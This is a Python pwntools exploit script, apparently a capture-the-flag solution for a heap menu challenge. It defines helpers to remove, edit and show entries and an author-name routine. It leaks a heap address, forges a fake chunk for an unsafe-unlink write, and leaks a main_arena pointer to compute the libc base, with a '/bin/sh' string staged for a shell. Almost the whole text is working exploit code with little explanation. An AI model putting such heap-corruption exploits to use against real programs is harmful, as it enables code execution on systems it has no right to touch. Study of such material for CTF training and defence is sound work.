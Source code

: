 ```python
def remove(idx):
    p.recvuntil(">")
    p.sendline(str(2))
    p.sendlineafter(": ", str(idx))

def edit(idx, desc):
    p.recvuntil(">")
    p.sendline(str(3))
    p.sendlineafter(": ", str(idx))
    p.sendlineafter(": ", str(desc))

def show():
    p.recvuntil(">")
    p.sendline(str(4))

def author_name(name):
    p.recvuntil(">")
    p.sendline(str(5))
    p.sendlineafter(": ", str(name))


p.recvuntil("author name: ")
p.sendline("skye".ljust(32,'a'))
create(0x20,'a'*8,0x20,'b'*8)#1

show()
p.recvuntil("skye".ljust(32,'a'))
first_heap = u64(p.recv(6).ljust(8,'\x00'))
log.info("first_heap:"+hex(first_heap))
heap_base = first_heap - 0x1080
log.info("heap_base:"+hex(heap_base))

create(0x20,'c'*8,0x20,'d'*8)#2
create(0x20,'e'*8,0x20,'f'*8)#3
remove(2)
remove(3)


create(0x20,'g'*8,0x208,'h'*8)#4 0x218
# make sure chunk5size low bit is 01,or corruption (!prev)
create(0x20,'i'*8,0x200-0x10,'j'*8)#5 0x200
create(0x20,"/bin/sh\x00",0x200,'k'*8)#6

ptr = heap_base + 0x1180# target addr
log.info("ptr:"+hex(ptr))
# fake chunk(0x200 2 chunk5)
payload = p64(0)+p64(0x201)+ p64(ptr-0x18) + p64(ptr-0x10) 
payload += '\x00'*0x1e0+p64(0x200)
edit(4,payload)
# gdb.attach(p,"b *$rebase(0x202018)")
remove(5)# unlink *ptr = ptr-0x18

# FD->chunk4 desc fd 
# BK->chunk6 struct desc
payload = p64(0x31)+p64(0x4)+p64(heap_base+0x11e0)+p64(heap_base+0x10c0)
edit(4,payload)
show()
p.recvuntil("Name: ")
p.recvuntil("Name: ")
main_area = u64(p.recv(6).ljust(8,'\x00'))
log.info("main_area:"+hex(main_area))
libc_base = main_area - 0x3c4b78
log.info("libc_base:"+hex(libc_base))
```